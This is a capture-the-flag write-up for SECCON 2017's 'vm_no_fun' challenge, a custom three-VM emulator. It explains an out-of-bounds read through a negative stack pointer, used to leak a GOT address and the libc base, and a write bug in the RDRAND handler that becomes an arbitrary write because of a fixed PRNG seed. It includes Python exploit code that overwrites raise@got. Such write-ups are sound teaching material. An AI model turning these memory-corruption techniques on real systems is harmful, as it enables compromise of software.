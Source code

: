# vm_no_fun (custom vm)

In this challenge we are provided with a custom virtual machine which emulates operations on CPU and IO. In fact there are three virtual machines, but they all work in very similar way.
I recommend you watch [How to build a Virtual Machine](https://www.youtube.com/watch?v=OjaAToVkoTw) if you want to get more familiar with vms.

Also please note that even thought I've tried to reverse engineer the whole program I gave up after reverse engineering half of first virtual machine and just used source code which I've found [here](https://github.com/SECCON/SECCON2017_online_CTF/tree/master/pwn/500_vm_no_fun/build). If the link is down you can still find it in `source-code/` folder.

## Internals
As stated above we are given three very simple virtual machines. Each of them consists of 14 registers and buffer of size 0xffff bytes. This buffer represents virtual machine memory space and is divided into segments. Segmentation looks the same for each vm:

```
code_segment:    [0x0   , 0x3fff]
data_segment:    [0x4000, 0x6fff]
extra_segment_r: [0x7000, 0x7fff]
extra_segment_w: [0x8000, 0x8fff]
stack_segment:   [0x9000, 0xffff]
```

This segmentation is achieved with special purpose registers: `cs`, `ds`, `es`, `ss`.

![](img/segments.png)

Code segment, data segment and stack all speak for itself. The interesting is extra segment. It is again divided into two parts each 0x1000 bytes and is used for interacting with the other vms or IO in case of VM1.
The point is that we can interact using stdin/stdout only with VM1. When we run vm2 it will load code from vm1 extra_segment_write instead of stdin.

![](img/interaction.png)


## Vulnerabilities
The most important thing to note is that we can change the value of registers. 

1) Arbitrary read via pop word operation from vm2:

```
case OPCODE_POP_WORD:
    if (ss * 16 + (int64_t)(int)sp > MEM_SIZE)
        raise(SIGSEGV);

    if (dest_word)
        *dest_word = *((uint32_t *) &vm2_mem[ss * 16 + (int64_t)(int)sp]);
    else
        raise(SIGILL);

    sp += 4;
    break;
```

It doesn't check whether `ss * 16 + sp` is less then 0. Meaning if we set `sp` to negative value we can read outside of memory. This way we can leak address from @got entry and determinate libc base address.

2) Arbitrary write via rdrand opeartion from vm3:

```
case OPCODE_RDRAND:
    if (es * 16 + (int16_t)di < 0 || es * 16 + (int16_t)di > MEM_SIZE)
        raise(SIGSEGV);
    vm3_mem[ds * 16 + (int16_t)di] = (uint8_t)(rand() & 0xff);
    break;

default:
    raise(SIGILL);
```

It checks the boundries of extra segment, but then writes memory inside data segment. We can change `di` to negative value and we have arbitrary write. The problem might seem that rand() is non deterministic, but in fact it is as the binary has been seeded with constant number 0x31337. This means that we can simply calculate localy how many times do we need to repeat the number of rand() calls before it will give as desired byte.

My code for this looks like this:
```python3
def generate_vm3_code(cookie):
    '''Generates code which will overwrite raise@got entry with provided cookie.
    This abuses the fact that we know seed for pseudo random number generator and 
    we can use RDRAND instruction to write anywhere we want.'''

    vm3_code = b''

    # First set di register so that VM3_MEM_BASE + ds * 16 + di == raise@got
    new_di = e.got['raise'] - DS_INIT_VAL * 16 - VM3_MEM_BASE
    vm3_code += vm3_set_reg(VM3_REG_DI, new_di)

    clibc = CDLL('/lib/x86_64-linux-gnu/libc-2.27.so')
    clibc.srand(0x31337) # provide same seed
    
    for b in cookie:
        while 1:
            r = clibc.rand() & 0xff
            vm3_code += pack('<h', VM3_OPCODE_RDRAND)
            if r == b:
                # We found correct byte so proceed to next byte
                new_di += 1
                vm3_code += vm3_set_reg(VM3_REG_DI, new_di)
                break
    vm3_code += pack('<h', VM3_INVALID_OPCODE)
    return vm3_code
```
